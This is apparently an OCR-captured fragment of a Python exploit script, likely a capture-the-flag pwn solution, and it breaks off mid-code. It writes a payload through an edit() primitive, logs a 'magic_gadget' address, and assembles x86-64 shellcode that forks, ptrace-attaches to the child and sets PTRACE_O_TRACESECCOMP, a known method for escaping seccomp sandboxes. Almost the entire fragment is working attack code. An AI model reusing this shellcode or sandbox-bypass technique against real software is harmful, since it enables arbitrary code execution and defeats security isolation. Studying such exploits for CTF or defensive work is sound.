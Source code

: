 ```python
    }
)
edit(1, payload)
lg("magic_gadget", magic_gadget)

cmd(5)

NR_fork = 57
NR_ptrace = 101
NR_wait = 61
PTRACE_ATTACH = 16
PTRACE_SETOPTIONS = 0x4200
PTRACE_O_TRACESECCOMP = 0x00000080
PTRACE_CONT = 7
PTRACE_DETACH = 17
shellcode = f"""
main:
/*fork()*/
    push {NR_fork}
    pop rax
    syscall
    push rax
    pop rbx
    test rax,rax
    jz child_code

/*ptrace(PTRACE_ATTACH, pid, NULL, NULL)*/
    xor r10, r10
    xor edx, edx
    mov rsi,rbx
    mov rdi,{PTRACE_ATTACH}
    push {NR_ptrace}
    pop rax
    syscall

    /* wait child  */
    xor rdi, rdi
    push {NR_wait}
    pop rax
    syscall

/* ptrace(PTRACE_SETOPTIONS, pid, NULL, PTRACE_O_TRACESECCOMP) */
    mov r10,{PTRACE_O_TRACESECCOMP}
    xor rdx, rdx
    mov rsi,rbx
    mov rdi, 0x4200
    push {NR_ptrace}
    pop rax
    syscall

    /* ptrace(PTRACE_CONT, pid, NULL, NULL) */
    xor r10,r10
    xor rdx,rdx
    mov rsi,rbx
    mov rdi, {PTRACE_CONT}  /* PTRACE_CONT */
    push {NR_ptrace}
    pop rax
    syscall

    /* Wait seccomp  */
    xor rdi, rdi
    push {NR_wait}
    pop rax
```